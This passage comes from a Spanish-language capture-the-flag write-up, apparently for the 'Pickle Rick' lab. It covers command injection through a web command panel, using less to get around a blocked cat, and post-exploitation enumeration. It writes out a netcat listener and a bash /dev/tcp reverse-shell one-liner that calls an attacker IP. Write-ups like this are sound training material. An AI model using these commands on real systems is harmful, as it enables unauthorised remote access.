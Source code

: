 <br>

---

<br>

## 💥 **3. Explotación de Vulnerabilidades**

### **Command Injection**

El Command Panel permitía ejecutar comandos del sistema directamente, lo que representa una vulnerabilidad crítica de Command Injection.

**Hallazgos Clave:**

- Comando `cat` estaba bloqueado con el mensaje:

  ```bash
  Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
  ```

- Se utilizaron alternativas para leer archivos:

  ```bash
  ls /home/rick
  less /home/rick/second\ ingredients
  ```

### **Obtención de Reverse Shell**

Para obtener un control más completo del sistema, se implementó una Reverse Shell:

**En la máquina atacante:**

```bash
nc -nvlp 4444
```

**En el Command Panel:**

```bash
bash -c 'exec bash -i &>/dev/tcp/10.14.104.220/4444 <&1'
```

**Resultado:**

- Conexión exitosa a la shell inversa.
- Acceso interactivo al sistema como usuario `www-data`.

---

## ⚙️ **4. Post-Explotación y Escalada de Privilegios**

### **Enumeración del Sistema**

Tras obtener acceso al sistema, se realizó una enumeración detallada:

```bash
whoami
id
pwd
ls -la /home/rick/
```
